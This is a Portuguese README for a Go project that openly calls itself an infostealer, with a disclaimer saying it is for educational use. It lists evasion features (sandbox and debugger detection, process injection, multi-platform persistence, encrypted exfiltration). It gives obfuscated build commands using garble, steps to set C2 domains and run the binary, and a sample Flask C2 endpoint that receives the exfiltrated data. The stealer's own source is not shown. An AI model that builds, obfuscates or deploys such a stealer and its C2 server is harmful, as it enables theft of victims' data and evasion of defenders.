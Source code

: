 # InfoHaze

[![Go Reference](https://pkg.go.dev/badge/github.com/marcostolosa/infoHaze.svg)](https://pkg.go.dev/github.com/marcostolosa/infoHaze)
[![Go Report Card](https://goreportcard.com/badge/github.com/marcostolosa/infoHaze)](https://goreportcard.com/report/github.com/marcostolosa/infoHaze)

## Visão Geral
InfoHaze é um infostealer escrito em Go e mantido apenas para fins educacionais. O projeto demonstra técnicas modernas de coleta e exfiltração de dados, incluindo derivação de chave baseada em hardware, ofuscação polimórfica e persistência multiplataforma.

## Recursos
- Derivação de chave a partir do hostname e do primeiro MAC disponível.
- Detecção básica de sandbox e debugger.
- Captura de tela com compressão e criptografia.
- Injeção em processo remoto e persistência para Windows, Linux e macOS.
- Exfiltração criptografada via HTTPS (AES-GCM + zlib).

## Requisitos
- Go 1.22 ou superior.
- Inicialize o módulo e recupere as dependências:
  ```bash
  go mod init github.com/marcostolosa/infoHaze
  go mod tidy
  ```

## Compilação
### Ofuscação opcional
```bash
garble -tiny -literals -seed random build -o infoHaze.exe tika.go
```
### Build direto
```bash
GOOS=windows GOARCH=amd64 go build -ldflags "-s -w" -o infoHaze.exe tika.go
```

## Uso
1. Ajuste os domínios C2 dentro do código (`tika.go`).
2. Compile o binário conforme desejado.
3. Execute o artefato em ambiente de laboratório controlado.

## Configuração do Servidor C2
- Disponibilize um endpoint HTTPS para receber os dados.
- Implemente descriptografia AES-GCM e descompressão zlib no servidor.
- Exemplo simplificado em Flask:
  ```python
  from flask import Flask, request
  app = Flask(__name__)

  @app.route('/upload', methods=['POST'])
  def upload():
      data = request.data
      # Descriptografar e descomprimir
      with open('output.bin', 'wb') as f:
          f.write(data)
      return 'OK', 200
  ```

## Aviso
Utilize este projeto apenas para pesquisa e testes autorizados. Qualquer uso indevido é ilegal e antiético, e os autores não se responsabilizam por danos causados.
